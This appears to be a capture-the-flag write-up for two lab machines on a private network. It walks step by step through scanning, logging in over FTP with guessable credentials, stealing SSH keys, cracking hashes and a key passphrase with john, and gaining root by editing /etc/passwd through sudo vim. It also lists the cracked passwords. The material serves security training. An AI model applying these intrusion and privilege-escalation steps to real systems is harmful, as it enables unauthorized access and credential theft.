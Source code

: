 # 2 Boxes 4 Shells
Conduct an nmap scan of 10.8.14.0/24 to find the two boxes ip address\
Box 1 = 10.8.14.13\
Box 2 = 10.8.14.71

## Box 1 User
Conduct an nmap scan of box 1 to see open ports\
Box 1\
21/ftp\
22/ssh\
8000/http

Visit the webpage and notice the different directories open\
"Liam Only!" contains a pdf file that has a vulnerability report\
"Team Effort" contains a list of usernames associated with the team

The vulnerability report shows that ftp login password is easily crackable or is the same as the username\
`ftp 10.8.14.13`\
`Username: lsmith`\
`Password: lsmith`

Move all of the keys from box 1 to your user box\
Change permissions to 600 for all files\
`chmod lsmith* 600`\
`chmod njones* 600`

SSH into box 1:\
`ssh lsmith@10.8.14.13 -i lsmith_rsa`

List directory and cat the token file for box 1 user token

## Box 1 Root
List the root directory and notice that `/root/` is owned by lsmith\
Cd into /root/\
`cd /root/`\
There are two files, the token and a python script\
The token is owned by root so you cannot cat it, but login.py looks interesting\
Cat login.py and see that there are hardcoded username and passwords\
copy and paste those hashes into txt files on the user box\
run `john un.txt/pw.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`\
the hashes will be cracked relatively quick\
go back to the bisonator box and run `su root`\
Password: bison2674\
cat the token file

## Box 2 User
When scanning box 2 from the user box, notice that 22/ssh is filtered\
Run `nc -nvz 10.8.14.71 22` and notice that it's open\
On the bisonator box, cd into `~/ftp/`\
Use njones' key to ssh into .71\
It requires a passphrase\
So use ssh2john.py to crack the passphrase\
`sudo find / -type f -iname 'ssh2john.py'`\
`python /path/to/ssh2john.py njones_rsa > njones.hash`\
`john njones.hash --wordlist=/usr/share/wordlists/rockyou.txt`\
Passphrase: skittles

SSH into box 2
`ssh njones@10.8.14.71 -i njones_rsa`\
Enter passphrase\
Cat token

## Box 2 Root
Do `sudo -l` to see what the user has sudo rights too\
Vim is the only thing listed\
`sudo vim /etc/passwd`\
(password is skittles)\
Change njones to look like this:\
njones:x:0:0:root and leave the rest of the line the same\
su to njones and you should have root privs
